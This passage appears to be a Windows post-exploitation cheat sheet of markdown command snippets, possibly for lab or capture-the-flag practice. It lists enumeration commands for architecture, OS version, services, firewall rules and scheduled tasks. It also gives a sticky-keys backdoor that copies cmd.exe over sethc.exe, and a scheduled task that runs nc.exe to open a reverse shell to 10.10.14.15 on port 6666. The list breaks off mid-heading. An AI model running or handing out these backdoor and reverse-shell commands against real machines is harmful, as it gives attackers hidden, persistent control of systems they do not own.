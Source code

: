 ```
echo %PROCESSOR_ARCHITECTURE%
```

## Find Windows Version:

```
ver
```


## Copy cmd and have it show up on sticky keys:

```
copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

---
</br>

## Use the "at" to schedule a task and then run it

```
at 8:06 cmd /c C:\wmpub\nc.exe 10.10.14.15 6666 -e cmd
schtasks
schtasks /Run /Tn At3
```

---
</br>


## Use tasklist to see what services each process is attached to

```
tasklist /SVC
```

## Enmurate Filewall Settings:

```
netsh advfirewall show currentprofile

netsh advfirewall firewall show rule name=all
```

## Enmuarte Scheduled Tasks

```
schtasks /query /fo LIST /v
```

## Enmurate Installed Applications (Registry Installed)

